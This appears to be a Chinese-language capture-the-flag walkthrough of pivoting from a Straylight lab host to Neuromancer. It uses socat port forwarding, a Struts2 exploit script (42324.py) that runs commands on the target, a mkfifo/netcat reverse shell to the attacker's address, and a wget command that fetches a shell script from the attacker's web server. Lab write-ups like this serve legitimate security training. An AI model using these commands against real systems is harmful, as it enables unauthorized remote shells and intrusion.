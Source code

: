 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukq6adSaDxRIH2icTnystDBt1JVmj9KArpxqsORuWZhicj72icx2N20rdSUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukquX9YkoG0Kxqe3FlaRjcV7hP3G7Vsu4SscrdBicQLzAX11FwCq83m8qA/640?wx_fmt=png)

要使 shell 能够通过外壳回调，需要以其他方式转发端口....

理解：需要将反向 shell 从 Neuromancer 中返回到 kali 中，其中 Straylight 是 ** 中间人 ** 来执行端口转发任务，因为 kali 和 Neuromancer 无法直接交谈... 所以需要 socat 再次使用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqNvtVESgNZkRoib6EBOZP0pyQicQNOYptYYKmZAGjGXJcEFJXRXHvEecQ/640?wx_fmt=png)

```
socat TCP-LISTEN:6666,fork,reuseaddr TCP:192.168.56.103:6666 &
```

我们可以看到 Straylight 正在侦听 TCP 端口 6666 上的流量了.....

在 kali 上通过 nc 开启监听...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqPtOT0ZOKqoM5sYvPicohiaygUaicVJdubQJDk2hmjCIgu8muDF0VeXL8w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqIWjqWlxGibsIlrqmuDodRwT5vHCVXEJdkBRBAibibOHibY1BpDwatWgRew/640?wx_fmt=png)

```
python 42324.py http://192.168.56.123:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "nc -nv 192.168.49.3 6666"
```

此靶机 netcat 版本不支持 nc -e 功能..... 所以管道和重定向之类的特定于 shell 的命令可能无法正常工作....

这边需要用另外一种方法.... 可以执行 wget 将反向 shell 直接拉向 Neuromancer.... 可以在 4321/tcp 的 kali 上设置一个侦听的 Python SimpleHTTPServer 的服务.... 由于端口转发，任何 wget 在 Neuromancer 上对 Straylight 执行的请求 4321/tcp 都可以找到 kali 本机....

先开启 4321 端口转发....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqT0HEaONOmxIe2nr03qDETa7ByOHQZsDf3xWQOZfR1DK1S3KpnEMaBw/640?wx_fmt=png)

启动 Python Web 服务器....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqHVjLNxO2hbgEGSNNucu6wU2YHwmjR9slc9w1skickelbWjLorOsRSJw/640?wx_fmt=png)

如果渗透对方最好使用 pentestmonkey 提供的反向 shell（安全起见哈...）

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.3 6666 >/tmp/f
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqsqFjia1x7sWicicLEMZic4gPGXstJtuJmLSEKgNXpq9DYDyXGF1ugVwwNQ/640?wx_fmt=png)

使用 wget 发送反向 shell 到对方去...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukq6iaMB88RHibJiaAKf2jyPF70Z01neezMLx9f8SphicKJb5NzhrtHMO7Kiag/640?wx_fmt=png)

```
python 42324.py http://192.168.56.123:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "wget http://192.168.49.3:4321/dayu1.sh -O /tmp/dayu1.sh"
```
